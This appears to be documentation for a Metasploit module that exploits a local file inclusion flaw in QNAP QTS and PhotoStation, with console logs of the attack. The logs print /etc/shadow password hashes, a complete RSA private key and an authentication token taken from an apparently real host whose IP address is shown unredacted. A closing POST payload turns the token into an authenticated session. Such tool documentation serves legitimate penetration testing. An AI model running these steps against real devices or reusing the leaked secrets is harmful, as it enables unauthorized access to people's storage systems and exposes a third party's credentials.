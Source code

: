 ## Vulnerable Application

### Introduction

This module abuses a vulnerability in QNAP QTS and PhotoStation that allows an
unauthenticated user to download files off the file system, and because the server
runs as root, it's possible to include sensitive files, including ssh private keys and
password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.


## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
6. Verify if `check` detects vulnerable hosts as it should
7. Do: `run`
8. Do: `loot`
9. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
10. Do: `creds`
11. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$CoERg7ynjYLsj2j4glJ34.:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16762:0:99999:7:::
Redouane:$1$$EBquHgqfhZQKEdjd8dqWh1:16935:0:99999:7:::
[sshd]:!:17496:0:99999:7:::
[appuser]:!:18036:0:99999:7:::
af4de148:$1$$Wb6XAeBxv2R5HfU8uyZc.1:18407:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  text/plain                      /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf5 auxiliary(gather/qnap_lfi) > 

```

#### Dumping ssh private keys

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MjE1
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_62.46.219.229_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtKUCApMRysMNtXwybkPvBL7TY4w/gSZ7k0TN6JkNXMUVI2oM
euNvkII/xxRmOO9IFenpoOFzCr3xlWWm7qsHON5DDJ+e24HC/C8uPISY0klBn+JD
ddKgQl4ebUToEaKJU+uPiAfDkHO2qh1q6DMnbHRQ39QHyw1W1UhegjCNDAQiLJ8Q
jsITJD6j4VxsjUeginnPD/Rt5hcM9pmYn580A2b4s1P1XN5JzpPGcZ015Y7XUXVu
Xg7G4uq+fi8TTKJyqCS81W//TwX3SBzEzSecxU7whMF8Xaa6WiZl1pj/4llKZnIJ
y49DKOKEMdwa7SEJgyuVZiF+vsu6yk3ES/MY1wIDAQABAoIBACVKfvy7EYwy8eyK
I/sBSSFIp2jAdgeaQx5msL8YgVqqUK/L36Gqu8gwKyxUuLl+I/pqHFGa2N3Z0jpO
DsTsR4Rk1aCQfwG/atoWf0v873NRrhtsYRK8lVq+BTf3ZpTlYcYSNcIWIDf8uzOo
+P3QOY45AM0D/0vaiBdlZiUoEqXtB6fybwvNj2uqq1uzv0E0liTb/HtqR2Ai4fHZ
ECs0TdTlIfF9vC8kO1ItCOY4pDr06/xgMhGKAnJsgVggRicDUXovnskugqJG9BqO
sNB8i+R309YiF6/T79pzjAEqxNKcZ+5ckn3QOMrBnsj5Yi/3iDYnYK7y2WB6phnM
JJ8pI3kCgYEA4CzcDOHXnQ4BD2zNPYdFv1UPfuB2WL0nOUBPh/7Z87CflMftMeHS
k5rFxvM33Zdq5a5MEkUTpkC79ID6mVKJd3HT/AaYIvCiYJDbKHYlbrLaHChc0t9a
qvmNA244EbPdm/2r7g68PhEXYGnnHDq+FQ5duyA0yqcSm0QP6+3lK4MCgYEAzkof
8SVh/UN7auUWnIv2H1J6PUZHjXDzRPLDz5FqYrhpSu4mt7tzDoFNwpP1A3cV3eVP
f60yrwQH7U4a6DtaC72gh7kdYogtY1UD+UOWX1Ocd0083zJGPO9Xbnd2yS5nMnQe
I0LpynjWmLDZhENHrzm3rcL9tV+IZ/gv6RHvOR0CgYBI4sz480TjL3ZwyXNBmgW3
W7SaD+jqmTVzi9FP6jB65uY7vXUFTuLkUuIS+WkkhuKeorjhB8yHtWxm5riTuR4w
07WUr6AvXAWvV+mpkiBBia0Ykpb7iNs108VhZCieuNhIq4WG9QuHMo9jLYuSxhaf
Sfh3qtT/PqryCIMUtlhYeQKBgD8hQBU0M4CmHibgZMMTsgZz3yTRVSRb5Ja9FF95
SO1dMhvUNdUUcGmH+JwLW3fsAa0ed+3CuzgEK8jbljBruWrOZUojxHJa6kjzw3uM
y3/wvnlkEbTcVdJgDImp1ZhLsxkln/N6jsF/qWyg8nAfhtiA+U0b1ziiO8RVl5Pk
ASmhAoGBANIaI7/PzJwc+VevrWTzd8cakF9h8OseG6hIK5Hz3B9YpvfLqe0qWfeU
tfdh+WpFqQycJdz2RimVDhSAKhnHy3dkzHmuGnN55UmFqX/eDe5WCoxk7QP98W+y
ECvSmTESX+vkqMq5sbzBxAf6TAw+i14eH4CgEsGnc0ui7ri5CU6y
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

#### Retrieving the token, can be used to authenticate

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MzUw
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_62.46.219.229_qnap.http_815651.bin
[+] File content:
8f9825b4410aaa3bc128865b6a1e75a6
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=8f9825b4410aaa3bc128865b6a1e75a6&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.
